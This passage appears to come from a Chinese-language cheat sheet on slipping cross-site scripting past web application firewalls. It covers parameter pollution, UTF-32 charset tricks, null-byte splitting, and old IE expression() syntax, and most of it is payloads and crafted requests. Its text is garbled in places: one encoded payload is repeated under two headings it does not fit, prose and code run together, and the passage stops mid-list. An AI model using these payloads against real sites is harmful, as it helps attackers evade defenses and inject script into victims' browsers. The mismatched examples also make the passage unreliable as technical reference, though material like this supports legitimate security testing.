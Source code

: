 ```
这种攻击方法基于服务器如何解释具有相同名称的参数可能造成bypass的情况:服务器使用最后接收到的参数，WAF只检查第一个参数服务器将来自类似参数的值联合起来，WAF单独检查它们
```

Example request:

```
可以尝试 修改 charset header to 更高的 Unicode (eg. UTF-32)当网站解码的时候，触发payload
```

当站点加载时，将其编码为我们设置的 UTF-32 编码，然后由于页面的输出编码为 UTF-8，将其呈现为:`"<script>alert (1) </ script>` 从而触发 xss

完整 url 编码后的 payload:

```
GET /page.php?p=∀㸀㰀script㸀alert(1)㰀/script㸀 HTTP/1.1Host: site.comUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:32.0) Gecko/20100101 Firefox/32.0Accept-Charset:utf-32; q=0.5<Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflate
```

#### Null 空字节

空字节通常用作字符串终止符

```
%E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80
```

#### 解析错误

```
%E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80
```

#### Unicode 分隔符

*   每个浏览器有不同的分隔分隔符
    

@Masato Kinugawafuzz 后发现如下

```
Payload 示例:<scri%00pt>alert(1);</scri%00pt><scri\x00pt>alert(1);</scri%00pt><s%00c%00r%00%00ip%00t>confirm(0);</s%00c%00r%00%00ip%00t>标准: <a href="javascript:alert()">混淆: <a href="ja0x09vas0x0A0x0Dcript:alert(1)">clickme</a>变形: <a 0x00 href="javascript:alert(1)">clickme</a>
```

示例

```
RFC 声明节点名不可以由空白起始但是我们可以使用特殊字符 ` %, //, !, ?`, etc.例子:<// style=x:expression\28write(1)\29> - Works upto IE7 (Source)<!--[if]><script>alert(1)</script --> - Works upto IE9 (Reference)<?xml-stylesheet type="text/css"?><root style="x:expression(write(1))"/> - Works in IE7 (Reference)<%div%20style=xss:expression(prompt(1))> - Works Upto IE7
```

### 使用其他非典型等效语法结构替换

找的 waf 开发人员没有注意到的语句进行攻击

一些 WAF 开发人员忽略的常见关键字:
